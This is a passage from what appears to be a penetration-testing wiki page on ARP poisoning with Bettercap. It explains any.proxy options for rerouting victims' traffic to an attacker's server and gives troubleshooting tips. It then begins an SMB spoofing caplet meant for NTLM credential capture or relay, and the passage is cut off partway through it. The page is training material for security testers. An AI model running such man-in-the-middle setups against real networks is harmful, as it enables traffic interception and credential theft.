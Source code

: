 Bettercap also has the [any.proxy](https://www.bettercap.org/modules/ethernet/proxies/any.proxy/) module that has multiple options to allows multiple scenarios

* `any.proxy.iface` allows to set the interface to redirect packets from
* `any.proxy.protocol` can be set to `UDP` or `TCP` to specify on which transport protocol the packets to reroute will transit 
* `any.proxy.src_address` refers to the destination address of the packets to reroute. This usally has to be set to the spoofed server IP address. Packets that were originally sent to that server will be rerouted and sent to another one. This option has to be set when doing the rerouting technique.This option can be blank. Bettercap will then reroute every packet received without filtering on the address. For instance, this is useful when doing a WSUS or DNS spoofing attack on multiple victims at the same time.
* `any.proxy.src_port` refers to the destination port of the packets to reroute. This usally has to be set to the spoofed service port. Packets that were originally sent to that server will be rerouted and sent to another one. This option has to be set when doing the rerouting technique.
* `any.proxy.dst_address` refers to the IP address the matched packets are to be sent to. For instance, when doing WSUS or DNS spoofing attacks in a rerouting technique mode, this option has to be set to the IP address of the attacker's server.
* `any.proxy.dst_port` refers to the port the matched packets are to be sent to.

### 🛠️ Bettercap logging

Bettercap's logging can be controlled so that only essential information is shown. Becoming a man-in-the-middle can be a little overwhelming when not filtering the info shown to the user.

* events.ignore TODOOOOO //

### 🛠️ Tips & tricks

* wireshark, make sure forwarded packets appear twice, one with MAC 1 -&gt; MAC 2, one with MAC 2 -&gt; MAC 3 \(1=victim, 2=attacker, 3=gateway\)
* Make sure the attacker and the victim client are on the same subnet, I don't know how to operate when they are not
* tracert on the client to make sure packets are forwarded if possible
* make sure it's not the DNS
* make sure the iptables rules are ok and allow forwarding
* make sure to run bettercap in a privileged container with network host
* options can be written in a `.cap` file and launched with bettercap with the following command and options`bettercap --iface $interface --caplet caplet.cap`

## Scenarios examples

Below are examples or targetted ARP poisoning attacks where the attacker wants to hijack packets aimed at a specific server \(SMB, DNS, WSUS, ...\), to answer with evil responses. The "dumping network secrets" scenario is the one attackers use to [dump credentials on the network](../credentials/dumping/network-secrets.md) \(usually in order to find an initial foothold\).

{% tabs %}
{% tab title="SMB spoofing" %}
Start the SMB server for [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) then start the poisoning attack.

{% code title="smb\_spoofing.cap" %}
```bash
# quick recon of the network
net.probe on

# set the ARP spoofing
set arp.spoof.targets $client_ip
set arp.spoof.internal false
set arp.spoof.fullduplex false

# reroute traffic aimed at the original SMB server
set any.proxy.iface $interface
set any.proxy.protocol TCP
set any.proxy.src_address $SMB_server_ip
```